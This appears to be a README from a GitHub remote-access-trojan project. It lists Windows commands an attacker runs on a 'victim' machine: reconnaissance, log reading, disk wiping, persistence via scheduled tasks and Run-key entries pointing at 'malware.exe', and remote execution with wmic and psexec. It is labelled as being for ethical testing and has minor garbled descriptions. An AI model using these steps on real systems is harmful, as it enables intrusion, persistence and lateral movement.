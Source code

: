 # List of useful commands for attacker (Windows) using Remote Access Trojan (RAT)

### 1. Basic System Information

| Command        | Description           
| ------------- |:-------------:| 
| systeminfo      | Lists OS, hardware, and patch details | 
| hostname      | 	Shows the computer name      |  
| whoami        |   Displays current user |
| wmic csproduct get name | are neat      |   



### 2. Network Diagnostics

| Command        | Description           
| ------------- |:-------------:| 
| ipconfig /all      | Shows full network configuration | 
| netstat -ano      | 	Lists all active connections and portse      |  
| ping google.com        |   Tests internet connectivity |
| tracert 8.8.8.8 | 	Traces network route to a host      |   


### 3.  User & Permission Management

| Command        | Description           
| ------------- |:-------------:| 
| net user      | Lists all user accounts | 
| net localgroup administrators      | 	Shows admin users      |  
| whoami /priv        |   	Checks current user privileges |


### 4. File System Operations

| Command        | Description           
| ------------- |:-------------:| 
| dir C:\      | Lists files in a directory | 
| type C:\file.txt      | 	Views file contents      |  
| del /s C:\temp\file.txt        |   	Deletes a file |
| copy C:\file.txt C:\backup\        |   	Copies files |



### 5. Process & Service Control
| Command	| Description |
| ------------- |:-------------:| 
| tasklist |	Lists running processes |
| taskkill /IM notepad.exe /F |	Force-closes a process |
| sc query |	Lists all Windows services |
| net start |	Shows running services |



### 6. 6. Security & Logs

| Command        | Description           
| ------------- |:-------------:| 
| wevtutil qe Security /rd:true /f:text |	Reads security event logs |
| auditpol /get /category:*	| Checks audit policies |
| cipher /w:C:\ | 	Securely wipes free space |


### 7. Persistence (For Ethical Testing)
| Command        | Description           
| ------------- |:-------------:| 
| schtasks /create /tn "TaskName" /tr "C:\payload.exe" /sc hourly	 | Creates a scheduled task |
| reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v "MyApp" /t REG_SZ /d "C:\malware.exe"	| Adds to startup (registry) |



### 8. Remote Administration (Admin Rights Required)

| Command        | Description           
| ------------- |:-------------:| 
| shutdown /r /t 60 /c "Restarting for updates" |	Reboots the system |
| wmic /node:"CLIENT_IP" process call create "cmd.exe"	| Runs commands remotely (WMIC) |
| psexec \\CLIENT_IP -u USER -p PASS cmd.exe	| Remote shell (PsExec from Sysinternals) |









---

Important:

In Visual Studio Code terminal,
1. Run the client.py (Client OS / Victim OS) 
2. Run the server.py (Server / Attacker OS)
3. Do the above commands in `server.py`  terminal:

![image](https://github.com/user-attachments/assets/61be0116-a17a-4739-ae48-9feed7196263)













